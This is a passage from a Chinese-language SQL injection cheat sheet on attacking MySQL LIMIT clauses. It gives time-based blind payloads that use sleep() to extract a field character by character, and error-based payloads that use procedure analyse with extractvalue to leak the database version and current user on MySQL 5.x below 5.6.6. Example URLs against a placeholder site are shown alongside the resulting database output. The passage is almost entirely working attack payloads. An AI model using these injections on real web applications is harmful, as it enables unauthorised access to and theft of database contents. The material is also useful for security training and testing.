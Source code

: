 ```plain
mysql> SELECT username FROM test.tdb_admin limit 0,1;
+----------+
| username |
+----------+
| admin    |
+----------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/limit_sql.php?limit=1 union select 1,if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),1,1)='a',sleep(5),1),3,4,5,6,7

读取某库某表某字段第一个字: select * from tdb_goods limit 0,1 union select 1,if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),1,1)='a',sleep(5),1),3,4,5,6,7

读取某库某表某字段第二字: select * from tdb_goods limit 0,1 union select 1,if(substring((SELECT 字段名 FROM 库名.表名 limit 0,1),2,1)='a',sleep(5),1),3,4,5,6,7

# MySQL limit 爆错注入-有orderBy的注入方法-只适用于小于5.6.6的5.x系列

## 0x00 记忆方式

limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,payload)),1);

在有order by 的limit 注入我就只会注入一点基本数据了。。

## 0x01 爆数据库版本

web语句: http://www.test.com/limit_sql.php?limit=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)

数据库语句: select * from tdb_goods ORDER BY goods_cate limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);



```plain
mysql> select * from tdb_goods ORDER BY goods_cate limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
```

## 0x02 爆当前连接用户

web语句: http://www.test.com/limit_sql.php?limit=1 procedure analyse(extractvalue(rand(),concat(0x3a,user())),1)

数据库语句: select * from tdb_goods ORDER BY goods_cate limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,user())),1);

```plain
mysql> select * from tdb_goods ORDER BY goods_cate limit 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,user())),1);
ERROR 1105 (HY000): XPATH syntax error: ':root@localhost'
```
